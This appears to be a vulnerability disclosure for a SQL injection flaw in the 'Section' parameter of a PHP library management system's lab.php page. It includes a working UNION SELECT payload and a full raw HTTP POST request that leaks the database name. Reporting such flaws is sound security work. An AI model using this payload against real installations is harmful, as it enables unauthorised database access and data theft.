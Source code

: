 # Library Management System v1.0 by kingbhob02 has SQL injection

vendors: https://www.sourcecodester.com/php/15434/library-management-system-qr-code-attendance-and-auto-generate-library-card.html

The program is built using the xmapp-php8.1 version

Vulnerability File: /LMS/librarian/lab.php

Vulnerability location:  /LMS/librarian/lab.php?Section=, Section

[+] Payload: submit=1&Section=-1'%20union%20select%201,2,database(),4,5,6,7,8,9,10--%20&Status=1 // Leak place ---> Section

```sql
POST /LMS/librarian/lab.php HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: _ga=GA1.1.1382961971.1655097107; PHPSESSID=7v8p4p3goshl3b4fkncu3bh9ui
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 83

submit=1&Section=-1'%20union%20select%201,2,database(),4,5,6,7,8,9,10--%20&Status=1
```

![image](https://user-images.githubusercontent.com/54017627/180445077-a24730d9-ac57-4d57-9c17-0a0581c11192.png)
